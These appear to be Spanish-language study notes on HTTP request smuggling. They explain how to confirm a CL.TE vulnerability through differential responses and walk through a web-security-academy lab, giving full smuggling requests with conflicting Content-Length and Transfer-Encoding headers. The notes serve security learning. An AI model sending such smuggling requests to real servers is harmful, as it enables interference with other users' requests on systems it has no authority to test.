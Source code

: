Cuando se detecta una probable vulnerabilidad de contrabando de solicitudes, puede obtener más evidencia de la vulnerabilidad explotándola para desencadenar diferencias en el contenido de las respuestas de la aplicación. Esto implica enviar dos solicitudes a la aplicación en rápida sucesión:

- Una solicitud de "ataque" diseñada para interferir con el procesamiento de la siguiente solicitud.
- Una solicitud "normal".

**Confirmación de vulnerabilidades de CL.TE mediante respuestas diferenciales**

Para confirmar una vulnerabilidad CL.TE, enviaría una solicitud de ataque como esta:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Con esta request el primer servidor lleva todo al segundo servidor y este último transporta la request hasta el 0 y deja lo demás para la siguiente request. La siguiente request lleva un código de error que provoca un respuesta 404.

<br />

**Laboratorio 4: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses**

Esta laboratorio envuelve una cadena de servidores front-end y back-end en el que el primero no procesa los datos fragmentos (no procesa el Transfer-Encoding Header).

Así, mandamos la siguiente request:

```HTTP
POST / HTTP/1.1
Host: laburl
Cookie: session=sessioncookie
Sec-Ch-Ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a020086035dd240c0d4756e00ee00e9.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
```
